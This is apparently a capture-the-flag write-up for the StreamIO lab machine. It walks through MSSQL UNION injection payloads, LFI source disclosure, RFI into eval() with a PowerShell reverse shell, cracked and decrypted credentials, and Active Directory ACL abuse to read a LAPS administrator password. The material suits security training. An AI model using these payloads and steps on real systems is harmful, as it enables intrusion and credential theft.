




# Attack Chain

```
└─► nmap → AD (streamIO.htb), vhosts: streamio.htb + watch.streamio.htb
    └─► watch → search.php → MSSQL SQLi (UNION) → dump users → MD5 → hashcat
        └─► admin panel (yoshihide) → "debug" param → LFI (php://filter)
            └─► index.php → creds | master.php → eval(file_get_contents())
                └─► RFI → POST include= → RCE as yoshihide
                    └─► sqlcmd (db_admin) → streamio_backup → nikk37 hash → crack
                        └─► WinRM as nikk37
                            └─► Firefox creds → firefox_decrypt → JDgodd
                                └─► JDgodd → WriteOwner → CORE STAFF → ReadLAPS
                                    └─► owner → genericAll → member → read LAPS
                                        └─► WinRM as Administrator → DC owned
```

# Summary

- [Enumeration](#enumeration)
- [Web - streamio.htb](#web---streamiohtb)
- [Web - watch.streamio.htb](#web---watchstreamiohtb)
	- [Directory fuzzing](#directory-fuzzing)
	- [search.php](#searchphp)
	- [UNION SELECT Injection](#union-select-injection)
		- [Version MSSLQL Injection](#version-msslql-injection)
		- [Databases](#databases)
		- [Tables name](#tables-name)
		- [Columns inside users](#columns-inside-users)
		- [Dump users](#dump-users)
	- [Crack hashes](#crack-hashes)
- [Admin Panel on streamio.htb](#admin-panel-on-streamiohtb)
	- [Local File Inclusion](#local-file-inclusion)
	- [master.php](#masterphp)
- [RCE with RFI](#rce-with-rfi)
	- [whoami test](#whoami-test)
	- [Reverse shell as yoshihide](#reverse-shell-as-yoshihide)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)
	- [Firefox decrypt](#firefox-decrypt)
	- [Read LAPS](#read-laps)
	- [Shell as Administrator](#shell-as-administrator)

---
# Enumeration

```
Nmap scan report for 10.129.22.25
Host is up (0.0075s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-18 21:42:38Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2026-06-18T21:43:25+00:00; +6h59m58s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
|_http-title: Not Found
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m56s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-06-18T21:42:46
|_  start_date: N/A
```

> [!NOTE]
> **Observations**
> - Target is an Active Directory
> - FQDN = `DC.streamIO.htb`
> - domain = `streamIO.htb`
> - Port 443 has 2 DNS entry `streamio.htb` and  `watch.streamIO.htb`

Let's add these informations to our `/etc/hosts` file.

```
echo '10.129.*.* DC.streamIO.htb streamIO.htb watch.streamIO.htb' | tee -a /etc/hosts
```

# Web - streamio.htb

Let's head directly to `streamio.htb` and see what we can find.


We are landing on a streaming site, and we have several sections. HOME, ABOUT, CONTACT US, and LOGIN.

On ABOUT there is the following.


We can write down the names since it might come handy later.

On LOGIN there is a login form but we do not have credentials and weak credentials do not work. It doesn't look vulnerable to SQLi either.


From directory brute force, we discover `/admin/master.php` but it prompts the following.



And there is nothing we can do yet. We can note that the website is running PHP.

# Web - watch.streamio.htb

Let's move on to `watch.streamio.htb` now.


It's running PHP too, and nothing can be done on the default page except leaving an email which does nothing.

### Directory fuzzing

Let's brute force the directories with `ffuf`.

```
ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u 'https://watch.streamio.htb/FUZZ' -e .php

static           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 10ms]
index.php        [Status: 200, Size: 2829, Words: 202, Lines: 79, Duration: 54ms]
Search.php       [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 617ms]
search.php       [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 778ms]
Static           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 8ms]
Index.php        [Status: 200, Size: 2829, Words: 202, Lines: 79, Duration: 8ms]
blocked.php      [Status: 200, Size: 677, Words: 28, Lines: 20, Duration: 11ms]
SEARCH.php       [Status: 200, Size: 253887, Words: 12366, Lines: 7194, Duration: 119ms]
```

`search.php` might be interesting, let's check it.

### search.php


The page allows us to search for movies with an user input.

### UNION SELECT Injection

After testing SQL Injection payloads, the following confirm that the form is vulnerable.

```
-1'UNION SELECT 1,2,3,4,5,6 -- -
```


The table has 6 columns.

We can also note that `sqlmap` does not work here because it redirects us to `blocked.php` which has a WAF utility there. So we have to do our injections manually.

##### Version MSSLQL Injection

We know the target is a Windows so the DB used is probably MSSQL, we can check using `@@version`.

```
-1'UNION SELECT 1,@@version,3,4,5,6 -- -
```


It's indeed running MSSQL.

##### Databases

For our manual database enumeration we can help ourself [here]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md#mssql-enumeration).

The following request will list every databases of the target.

```
-1'UNION SELECT 1,(SELECT STRING_AGG(name, ', ') FROM master..sysdatabases),3,4,5,6 -- -
```



The most interesting are `STREAMIO` and `streamio_backup`. However we do not have rights on the last one, so we have to stick with the first one.

##### Tables name

Now that we have the database name, let's list the tables inside.

```
-1' UNION SELECT 1,(SELECT STRING_AGG(table_name,', ') FROM STREAMIO.information_schema.tables),3,4,5,6 -- -
```


There is 2 tables, `movies` and `users`. 

##### Columns inside users

Since the `users` table is probably the most sensitive, let's continue our enumeration with that table, by listing the columns inside.

```
-1' UNION SELECT 1,(SELECT STRING_AGG(column_name,', ') FROM STREAMIO.information_schema.columns WHERE table_name='users'),3,4,5,6-- -
```


##### Dump users

We have every informations we need now to dump the table.

```
-1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'<br>') FROM STREAMIO.dbo.users),3,4,5,6 -- -
```



We have a list of users and password hashed with MD5.

### Crack hashes

Let's copy the dump in a file.

```
cat creds.txt 
James:c660060492d9edcaa8332d89c99c9239
...
<SNIP>
```

And we can use any tool we want to crack them such as `hashcat`. Which retrieved the following.

```
hashcat -m 0 creds.txt `fzf-wordlists`  --username --show

Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
Juliette:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
admin:665a50ac9eaa781e4f7f04199db97a11:paddpadd
```

# Admin Panel on streamio.htb

Now that we have credentials, we can get back to the admin panel and test every credentials to see if they work.


The one that worked is `yoshihide`:`66boysandgirls..`

Clicking on any options set a parameter to the url. Let's fuzz for more parameters that might not be appearing here.


```
ffuf -c -w /opt/lists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "https://streamio.htb/admin/?FUZZ=a" -b 'PHPSESSID=i8h2p9o8cgsiuai685aisqn2jv' -fs 1678

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 30ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 43ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 36ms]
user                    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 31ms]
```

We have one more that we didn't know, `debug`.

### Local File Inclusion

Testing that parameter for Local File Inclusion (LFI) confirmed the vulnerability.


Since the target is running PHP, we can retrieve the source code using php filter.

Let's target `index.php`.

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```


We succesfuly retrieve the code source of `index.php`, encoded in base64. Let's decode it and see what we can find.


```
echo '<base64> | base64 -d'
```

```
<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
	header('HTTP/1.1 403 Forbidden');
	die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>

<SNIP>
```

At the top of the document, there is a php variable used to connect the MSSQL database that has hardcoded credentials.

> [!TIP]
> **Database Credentials found**
> `db_admin`:`B1@hx31234567890`

### master.php

We faced earlier a page we coulnd't interact with. Let's retrieve its source code too.

```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php
```


```
echo '<base64> | base64 -d'
```

```
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['movie']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST" action="?movie=">
				<input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>Staff managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
$query = "select * from users where is_staff = 1 ";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
if(isset($_POST['staff_id']))
{
?>
<div class="alert alert-success"> Message sent to administrator</div>
<?php
}
$query = "select * from users where is_staff = 1";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="staff_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>User managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['user_id']))
{
$query = "delete from users where is_staff = 0 and id = ".$_POST['user_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from users where is_staff = 0";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['username']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST">
				<input type="hidden" name="user_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
```


> [!NOTE]
> **Analysis**
> - `file_get_contents($_POST['include'])` reads the content the user supplies in the POST parameter `include`. The vulnerability lies in the fact that `file_get_contents` doesn't only accept local files — it can also retrieve a remote one over HTTP. This makes it vulnerable to Remote File Inclusion.
> - `eval()` executes the PHP code contained in that file, turning the RFI into a Remote Code Execution.
> - Once `master.php` is loaded through `index.php`, we send a POST request with the `include` parameter pointing to a malicious PHP script hosted on our machine; `file_get_contents` fetches it over HTTP and `eval` runs it on the server.

Because the payload goes through `eval()` (not `include`), it must be raw PHP **without** `<?php ?>` tags — `eval` treats its input as already being PHP code.

# RCE with RFI

Let's exploit this.

### whoami test

First we test our theory by creating a malicious PHP file on our machine.


**whoami.php**
```php
echo shell_exec("whoami");
```


Next we capture the request with Burpsuite and send it to repeater.


We change the request to POST like this and send the request like the following.


In the ouput, we will see that our exploit worked and that `streamio\yoshihide` runs the application.

### Reverse shell as yoshihide

Now that we know it works, we can put a powershell reverse shell crafted with [revshell.com](https://www.revshells.com/) instead of the `whoami` command.

**payload.php**
```
shell_exec('powershell -e <base64>');
```

After resending our payload through Burpsuite we should get a reverse shell.

```
nc -lvnp 6767              
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::6767
Ncat: Listening on 0.0.0.0:6767
Ncat: Connection from 10.129.23.42.
Ncat: Connection from 10.129.23.42:63363.
whoami
streamio\yoshihide
PS C:\inetpub\streamio.htb\admin>
```

# Lateral Movement

We finally have a foothold on the target.

Since we retrieved credentials for `db_admin`, we can try them localy and enumerate the databases.

```
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P "B1@hx31234567890" -Q "SELECT name FROM sys.databases"
name                                                                                                                            
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                          
tempdb                                                                                                                          
model                                                                                                                           
msdb                                                                                                                            
STREAMIO                                                                                                                        
streamio_backup                                                                                                                 

(6 rows affected)
```

The credentials works, let's enumerate `streamio_backup` now that we have access.

```
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P "B1@hx31234567890" -d streamio_backup -Q "SELECT table_name FROM information_schema.tables"
table_name                                                                                                                      
--------------------------------------------------------------------------------------------------------------------------------
movies                                                                                                                          
users                                                                                                                           

(2 rows affected)
```

There are 2 tables too, let's retrieve its content.

```
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P "B1@hx31234567890" -d streamio_backup -Q "SELECT * FROM users"
id          username                        password                                          
----------- ----------------               ----------------------------------
          1 nikk37                          389d14cb8e4e9b94b137deb1caf0612a                  
          2 yoshihide                       b779ba15cedfd22a023c4d8bcf5f2332                  
          3 James                           c660060492d9edcaa8332d89c99c9239                  
          4 Theodore                        925e5408ecb67aea449373d668b7359e                  
          5 Samantha                        083ffae904143c4796e464dac33c1f7d                  
          6 Lauren                          08344b85b329d7efd611b7a7743e8a09                  
          7 William                         d62be0dc82071bccc1322d64ec5b6c51                  
          8 Sabrina                         f87d3c0d6c8fd686aacc6627f1f493a5                  

(8 rows affected)
```

The user `nikk37` was not present on the other base. Let's crack the hash with crackstation.


> [!TIP]
> **Credentials obtained**
> `nikk37`:`get_dem_girls2@yahoo.com`

Let's check the validity with `NetExec`.

The credentials are valid, let's connect with `evil-winrm`.

```
nxc winrm 10.129.23.42 -u nikk37 -p 'get_dem_girls2@yahoo.com'

WINRM       10.129.*.*    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:streamIO.htb) 

WINRM   10.129.*.* 5985 DC  [+] streamIO.htb\nikk37:get_dem_girls2@yahoo.com (admin)
```


```
evil-winrm -i 10.129.23.42 -u nikk37 -p 'get_dem_girls2@yahoo.com'

*Evil-WinRM* PS C:\Users\nikk37\Documents> 
```

We can grab the flag user from here.

# Privilege Escalation

Let's look for Privilege Escalation now.

From the WinPEAS scan, we notice the following.

```
Looking for Firefox DBs
https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
Run SharpWeb (https://github.com/djhohnstein/SharpWeb)
```

We can also collect some data on the domain with `SharpHound.exe`.

```
*Evil-WinRM* PS C:\Users\nikk37\Documents> .\SharpHound.exe -c all --zipfilename collect.zip
```

### Firefox decrypt

In the firefox folder, we notice that there is a file called `logins.json` containing the following :

```
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> cat logins.json
{"nextId":5,"logins":[{"id":1,"hostname":"https://slack.streamio.htb","httpRealm":null,"formSubmitURL":"","usernameField":"","passwordField":"","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECG2cZGM1+s+hBAiQvduUzZPkCw==","encryptedPassword":"MEIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECKA5q3v2TxvuBBjtXIyW2UjOBvrg700JOU1yfrb0EnMRelw=","guid":"{9867a888-c468-4173-b2f4-329a1ec7fa60}","encType":1,"timeCreated":1645526456872,"timeLastUsed":1645526456872,"timePasswordChanged":1645526456872,"timesUsed":1}
<SNIP>
```

But the password are encrypted. To decrypt them, we need to transfer the files `cert9.db`, `key4.db`,and `logins.json` to our machine.

Next we can use [firefox_decrypt.py](https://github.com/unode/firefox_decrypt) to decrypt the credentials.

```bash
python3 firefox_decrypt.py /workspace/firefox

Website:   https://slack.streamio.htb
Username: 'admin'
Password: 'JDg0dd1s@d0p3cr3@t0r'

Website:   https://slack.streamio.htb
Username: 'nikk37'
Password: 'n1kk1sd0p3t00:)'

Website:   https://slack.streamio.htb
Username: 'yoshihide'
Password: 'paddpadd@12'

Website:   https://slack.streamio.htb
Username: 'JDgodd'
Password: 'password@12'
```

> [!TIP]
> **Firefox credentials decrypted**

After testing the credentials, this combination is valid :

```bash
nxc smb 10.129.*.* -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r'

SMB   10.129.*.*   445 DC  [+] streamIO.htb\JDgodd:JDg0dd1s@d0p3cr3@t0r 
```


### Read LAPS

From the bloodhound graph we collected earlier we notice this :



The user `jdgodd` that we compromised has `WriteOwner` on the group `CORE STAFF`, and members of that group can read the LAPS Password of the machine account.

`ReadLAPSPassword` grants the right to read the confidential `ms-Mcs-AdmPwd` attribute, where LAPS stores the cleartext local Administrator password of the machine, letting any principal with this permission retrieve it and authenticate as local admin.

Since we already own the group, let's add `GenericAll` to the group so we can add ourself inside.

```
bloodyAD --host "10.129.23.218" -d "streamio.htb" -u "jdgodd" -p 'JDg0dd1s@d0p3cr3@t0r' add genericall "CORE STAFF" jdgodd

[+] jdgodd has now GenericAll on CORE STAFF
```

Let's add `jdgodd` to the group `CORE STAFF` now.

```
bloodyAD --host "10.129.23.218" -d "streamio.htb" -u "jdgodd" -p 'JDg0dd1s@d0p3cr3@t0r' add groupMember "CORE STAFF" jdgodd
[+] jdgodd added to CORE STAFF
```

Now that `jdgodd` is a member of the group, we can read the password for the `administrator` user.

```
bloodyAD --host "10.129.23.218" -d "streamio.htb" -u "jdgodd" -p 'JDg0dd1s@d0p3cr3@t0r' get object 'DC$' --attr ms-Mcs-AdmPwd 

distinguishedName: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: cLCFt@+$[-{2v8
```

> [!TIP]
> **Administrator password obtained**

We check the validity of the credentials


```
nxc smb 10.129.23.218 -u administrator -p 'cLCFt@+$[-{2v8'      
SMB         10.129.23.218   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:streamIO.htb) (signing:True) (SMBv1:None)
SMB         10.129.23.218   445    DC               [+] streamIO.htb\administrator:cLCFt@+$[-{2v8 (admin)
```

### Shell as Administrator

```
evil-winrm -i 10.129.23.218 -u administrator -p 'cLCFt@+$[-{2v8'

*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

> [!TIP]
> **Machine Rooted**

